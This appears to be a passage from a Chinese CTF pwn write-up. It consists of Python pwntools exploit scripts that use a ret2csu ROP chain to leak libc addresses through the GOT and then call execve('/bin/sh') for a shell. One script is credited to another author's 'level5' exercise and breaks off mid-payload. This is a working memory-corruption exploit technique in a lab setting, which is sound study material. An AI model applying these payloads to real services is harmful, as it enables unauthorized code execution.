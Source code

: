 ```python
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # r13d=rdi=edi
    # r14=rsi
    # r15=rdx
    payload+=p64(gadget2) # ret
    payload+='a'*0x38 # padding
    payload+=p64(ret) # ret
    return payload

p.recvuntil("Hello, World\n")
payload1=csu(0,1,write_got,1,write_got,8,main_addr) # leak write
p.sendline(payload1)
log.success("\n===== send payload1 =====\n")

write_addr=u64(p.recv(6).ljust(8,'\x00'))
log.success("write_addr:{}".format(hex(write_addr)))

libc=ELF("./libc6_2.23-0ubuntu11.2_amd64.so")
libc_base=write_addr-libc.symbols['write']
execve_addr=libc_base+libc.symbols['execve']
log.success("execve_addr:{}".format(hex(execve_addr)))

p.recvuntil("Hello, World\n")
payload2=csu(0,1,read_got,0,bss_addr,0x100,main_addr) # 在bss_base写入execve ，bss+8写入/bin/sh
p.sendline(payload2)
p.send(p64(execve_addr)+'/bin/sh\x00')
log.success("\n===== send payload2 =====\n")

#p.recvuntil("Hello, World\n")
payload3=csu(0,1,bss_addr,bss_addr+8,0,0,main_addr) # getshell
p.sendline(payload3) 
log.success("\n===== send payload3 =====\n")

p.interactive()
```
贴一下蒸米的exp
```python
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
```